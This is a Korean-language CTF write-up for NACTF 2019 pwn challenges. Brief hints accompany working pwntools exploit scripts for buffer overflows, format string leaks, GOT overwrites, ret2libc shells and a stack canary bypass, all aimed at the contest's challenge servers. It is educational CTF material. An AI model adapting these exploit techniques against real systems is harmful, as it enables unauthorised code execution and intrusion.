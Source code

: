 ```yaml
---
layout: post
title: "2019 Newark Academy CTF Writeup"
date: 2019-9-23
ctf: NACTF
---
```


# BufferOverflow #0

리턴값만 덮어주면 된다.

```python
from pwn import *

p = remote('shell.2019.nactf.com',31475) 
payload = ''
payload += 'A'*28
payload += p32(0x080491c2)
p.sendlineafter('>',payload)
p.interactive()
```

<br />

# BufferOverflow #1

리턴값만 덮어주면 된다.

```python
from pwn import *
 
p = remote('shell.2019.nactf.com',31462)
payload = ''
payload += 'A'*28
payload += p32(0x080491b2)
p.sendlineafter('>',payload)
p.interactive()
```

<br />

# BufferOverflow #2

인자로 들어가는 a1이 long long int라 p64로 값 맞춰주면 된다. 

```python
from pwn import *
 
context.log_level = "debug"
p = remote('shell.2019.nactf.com',31184)
e = ELF('./bufover-2')
win = 0x080491c2
payload = 'A'*28
payload += p32(e.sym.win)
payload += 'AAAA'
payload += p64(0x14B4DA55)
payload += p32(0xF00DB4BE)
p.sendlineafter('>',payload)
p.interactive()
```

<br />

# Format #0

그냥 printf 포맷스트링 버그 터지는데 Leak해주면 풀린다.

```python
from pwn import *
 
for i in range(30):
    p = remote('shell.2019.nactf.com',31782)
    payload = '%' + str(i) + '$s'
    sleep(1)
    p.sendlineafter('>',payload)
    ex = p.recv(1024)
    if 'nactf' in ex:
        print ex
        p.close()
        exit(0)
    p.close()
p.interactive()
```

<br />

# Format #1

fmtstr_payload로 printf got 주소를 win으로 바꿔주면 printf 함수 실행할때 win함수가 실행되서 풀릴 것이다.

```python
from pwn import *
 
p = remote('shell.2019.nactf.com',31560)
e = ELF('./format-1')
 
payload = fmtstr_payload(4,{e.got['printf']:e.symbols['win']})
p.sendlineafter('>',payload) 
p.interactive()
```

<br />

# Loopy#0

그냥 fsb로 leak해주고 RTL해주면 된다.

```python
from pwn import *
 
context.arch='i386'
e = ELF('loopy-0')
libc = ELF('./libc.so.6')
p = remote('shell.2019.nactf.com',31283)
 
popret = 0x0804901e # pop ebx ; ret
payload = p32(e.got['printf']) + '%4$s'
payload += 'A'*(0x48+4-8)
payload += p32(e.symbols['vuln']) # ret
p.sendlineafter('>',payload)
p.recvuntil(': ')
p.recv(4)
printf = u32(p.recv(4))
log.info('printf : ' + hex(printf))
libc_base = printf - libc.symbols['printf']
log.info('libc_base : ' + hex(libc_base))
 
payload2 = 'A'*(0x48+4)
payload2 += p32(libc_base + libc.symbols['system'])
payload2 += 'AAAA'
payload2 += p32(libc_base + libc.search('/bin/sh').next())
p.sendlineafter('>',payload2)
 
p.interactive()
```

<br />

# Loopy #1

Canary 걸려잇어서 stack_chk_fail GOT를 start로 바꾸고 Leak해주면서 Canary도 Leak해주고 Canary 잘 맞춰주고 페이로드 짜면 된다.

```python
from pwn import *
 
# context.log_level = 'debug'
e = ELF('./loopy-1')
libc = ELF('./libc.so.6')
p = remote('shell.2019.nactf.com',31732)
 
__stack_chk_fail = 0x0804C014 # got
_start = 0x08049090
 
payload = fmtstr_payload(7,{__stack_chk_fail:_start})
payload += 'A'*100
p.sendlineafter('>',payload)
 
payload2 = p32(e.got['printf']) + '%7$s'
payload2 += 'A'*100
p.sendlineafter('>',payload2)
 
p.recvuntil(': ')
p.recv(4)
libc_base = u32(p.recv(4)) - libc.symbols['printf']
log.info('libc_base : ' + hex(libc_base))
system = libc_base + libc.symbols['system']
binsh = libc_base + libc.search('/bin/sh\x00').next()
 
payload3 = '%31$p'
payload3 += 'A'*62
p.sendlineafter('>',payload3)
 
p.recvuntil(': ')
canary = int(p.recv(10),16)
log.info('canary : ' + hex(canary))
 
payload4 = 'A'*64
payload4 += p32(canary)
payload4 += 'A'*12
payload4 += p32(system)
payload4 += p32(system)
payload4 += p32(binsh)
p.sendlineafter('>',payload4)
 
p.interactive()
```

